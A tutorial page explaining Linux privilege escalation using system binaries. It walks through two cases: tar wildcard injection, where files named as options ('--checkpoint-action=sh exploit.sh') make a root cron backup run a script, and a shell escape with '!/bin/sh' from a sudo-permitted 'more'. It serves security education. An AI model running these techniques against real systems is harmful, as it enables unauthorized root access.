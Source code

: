 # Living off the land

### Theory

Living of the Land is a well known privilege escalation technique, where an attacker will leverage binaries found on the attacked machine to perform a privilege escalation. Indeed, many UNIX programs have options that can be exploited to open a shell. Therefore if we can start the program we exploit as another user, we might be able to open a shell as this user ! 

Most of the payloads to do this can be found here : [https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/tar/#shell)

Here are two case study to better understand the principle of these privilege escalations :

### Case study 1 : Privesc using tar and a cronjob

Imagine a scenario where a script backups a directory \(that we can control\) on the server each hour using `tar` like this :

```text
#!/bin/bash

mkdir -p /backups/
tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz /var/www/html/*
```

Notice this interesting pattern `tar czvf file.tar.gz *` in the script. This is a security vulnerability because of how UNIX shells handles wildcards. Let's see an example with the `ls` command :

```text
$ ls -lha
total 84K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
$ ls *
file1  file2  file3

$ echo '' > '-lha'
$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
-rw-rw-r--  1 user user    1 avril 27 22:32 -lha
$ ls *
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
```

The shell wildcards are resolved by the shell, and not by the command. This means filenames can be treated as options if they are starting with a `-`. In our previous example, we added a file called `-lha` into the folder. When we type `ls *`, the shell replaces the `*` by all matching files in the current directory, and therefore our command becomes `ls file1 file2 file3 -lha`. After the wildcard resolution, the shell executes the command with our options.

Now if we get back to our script creating a backup of a directory each our with `tar *`, we see that tar have legitimate options allowing execution of a program. You can find them here :

* [https://gtfobins.github.io/gtfobins/tar/\#shell](https://gtfobins.github.io/gtfobins/tar/#shell)

To use these options in our exploit, we jut need to create these two files in our directory, as well as the `exploit.sh` file, containing the command we want to run when we trigger the execution :

```text
echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=sh exploit.sh'

$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    1 avril 27 22:31 '--checkpoint=1'
-rw-rw-r--  1 user user    1 avril 27 22:32 '--checkpoint-action=sh exploit.sh'
-rwxrwxrwx  1 user user  784 avril 27 22:32 exploit.sh
```

We are now ready ! We just need to wait until the directory is backup again, and it will trigger our payload and execute `exploit.sh` file!

### Case study 2 : Privesc using more and sudo

Let's take an example, with this `sudo` configuration :

```text
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on PC1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on PC1:
    (ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log
```

In this case `user` can run the `more` command, but only to read a specific log file `/var/log/apache2/access.log` as `root` without password \(`NOPASSWD` flag\) : 

```text
sudo -u root /usr/bin/more /var/log/apache2/access.log
```

You can assume this would be safe right ? Unfortunately, it's not. The `more` command has various useful options, one of them is `!`. When you're in `more` and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type `!/bin/sh` in `more`, you will open a shell as the owner of the parent `more` process !

```text
$ sudo -u root /usr/bin/more /var/log/apache2/access.log
File content line 1
File content line 2
...
File content line n
------------------------
!/bin/sh
# 
uid=0(root) gid=0(root) groups=0(root)
# 
```


